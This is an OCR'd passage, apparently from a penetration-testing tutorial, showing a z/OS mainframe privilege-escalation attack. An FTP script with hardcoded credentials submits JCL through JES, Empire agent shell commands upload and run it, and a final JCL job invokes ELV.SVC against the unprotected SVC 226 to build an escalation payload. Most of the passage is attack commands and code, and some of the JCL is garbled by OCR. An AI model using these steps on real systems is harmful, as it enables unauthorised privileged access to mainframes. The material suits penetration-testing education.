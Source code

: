 Create the FTP script to submit the JCL and retrieve the output:

```
// FTP script saved as ftp_search.txt
open 192.168.1.200
FTPSRV
PASS01
quote site file=jes
put C:\Users\sysback\AppData\Local\SEARCH.JOB
quote site file=seq
get 'FTPSRV.OUTPUT2' FTPSRV.OUTPUT2.TXT
quit
```

Upload and run the FTP script to submit the JCL and get the output:

```
(Empire: SalesFTP) > upload /root/ftp_search.txt C:\Users\sysback\AppData\Local\ftp_search.txt
(Empire: SalesFTP) > shell ftp -s:ftp_search.txt
```

Check the output file:

```
(Empire: SalesFTP) > shell type C:\Users\sysback\AppData\Local\FTPSRV.OUTPUT2.TXT
```

The output from the last command is not shown in detail here due to its extensive nature. However, key elements to note include:

- The last column in the output labeled "AUTH-BIT" will display a row with "YES."

- At the bottom of the output, look for a line that begins with "DUMPING AUTH SVC 226."

It appears that SVC number 226 may indeed be a "magic" Supervisor Call with no security checks. While we won’t delve into the assembly code details here, it's significant to note that anyone who successfully calls SVC 226 could gain extensive access to the z/OS system—an unsettling prospect. For a real-world example of such vulnerabilities, consider researching the Logica Mainframe incident.

To leverage this, we need to adjust our JCL script to use SVC number 226. Additionally, we must create a dataset, FTPSRV.PDS, to serve as a library where ELV.SVC can compile and store its payload:

```
//FTPSRV1 JOB
//PDS
DD DSN=FTPSRV.PDS(NEWMEM),DISP=(NEW,CATLG),
//
SPACE=(TRK,(1,1,24)),RECFM=U
//
//STEP01 EXEC PGM=IKJEFT01
//SYSTSIN DD *
ex 'FTPSRV.ELV.SVC' 'DSN=FTPSRV.PDS SVC=226'
/*
//SYSIN
DD DUMMY
//SYSTSPRT DD DSN=FTPSRV.OUTPUT3,
// DISP=(NEW,CATLG),
// SPACE=(TRK,1)
```
